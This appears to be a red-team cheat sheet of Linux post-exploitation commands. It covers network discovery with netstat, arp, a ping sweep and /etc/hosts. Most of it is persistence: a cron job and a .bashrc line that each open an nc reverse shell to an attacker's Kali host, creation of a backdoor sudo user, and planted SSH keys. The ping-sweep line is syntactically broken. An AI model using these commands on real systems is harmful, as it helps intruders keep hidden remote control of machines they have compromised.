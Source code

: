 # Linux Post Exploitation   
## Network Discovery    
    netstat -antp; arp -a 
    for x in {1 .. 254};do (ping -c 1 l.l.l.$x | grep "bytes from" &); done | cut -d " " 
    cat /etc/hosts     
    
## Linux Persistence   
[Red Team Linux Persistence](https://www.linode.com/docs/guides/linux-red-team-persistence-techniques/)    
### cronjobs    

    crontab -e    
     * * * * * nc <KALI-IP> <PORT> -e /bin/sh    #add below line as a cronjob   
### nohup       
### init.d scripts   
### Adding a privileged user      

     useradd  -m -s /bin/bash user   #create user     
     usermod -aG sudo user     #add to sudo group      
     passwd user    #set a password    
### SSH keys    
Generate a key pair then add the public key to ~/authorized_keys    

     ssh-keygen     #generate a key pair   
     #add id_rsa.pub to ~/.ssh/authorized_keys    
### Unix Shell Config Modification       

     #edit ~/.bashrc      
     nc -e /bin/bash <KALI-IP> <PORT> 2>/dev/null &     #add a line to receive a shell every time the user logs on   
